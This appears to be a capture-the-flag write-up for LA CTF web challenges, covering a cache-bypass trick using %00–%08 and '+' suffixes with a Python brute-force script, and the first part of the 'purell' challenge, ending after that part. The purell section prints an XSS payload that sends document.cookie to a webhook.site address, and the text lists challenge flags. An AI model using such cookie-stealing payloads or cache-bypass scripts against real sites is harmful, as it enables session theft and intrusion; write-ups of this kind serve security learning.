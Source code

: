 ## Cache it to win it:

![image](https://github.com/user-attachments/assets/fd2e1a68-5dcd-4233-9116-60a58569d57e)

After the first request, X-Cache become hit, so it can't decrease anymore

But when you add a `+`, something is happen

![image](https://github.com/user-attachments/assets/41c4b214-fad7-4285-8ae6-13b74d829e90)

Then, if you add a `%00`, it is continue to decrease. It is also work with `%01`, `%02`, ..., until `%08`

:::note[Solution]
Write a script that send response to url with from `%00` to `%08` and add some plus behind ( if you add too much `+`, it not work )
:::

```python
import requests

url="https://cache-it-to-win-it.chall.lac.tf/check?uuid="

#remember to change it to your uuid
uuid="3686697b-9a6e-49ed-845b-c6f0f0f12564"

cookie={
    "id": f"{uuid}"
}
for i in range(2): 
    for j in range(9):
        for k in range(7):
            payload=f"%0{j}"*(i+1)+"+"*k
            response=requests.get(url+uuid+payload, cookies=cookie)
            print(response.links)
            print(response.text)
            if("FLAG" in response.text):
                exit()
```

### Flag: 
`lactf{my_c4ch3_f41l3d!!!!!!!}`

## purell:

![image](https://github.com/user-attachments/assets/569f0356-4dde-4c52-aa94-b9a1ebb2d9a4)

This chall is very long, so i will talk brief about solution:

### Part1:
- payload: `<script>document.location="https://webhook.site/b47e057f-74f9-43a1-9a2b-2173e37868e5?cookie="+document.cookie</script>`
- token: `purell-token{gu4u_of_exf1l}`
- flag: `lactf{1_4m_z3_`
- name: `start`
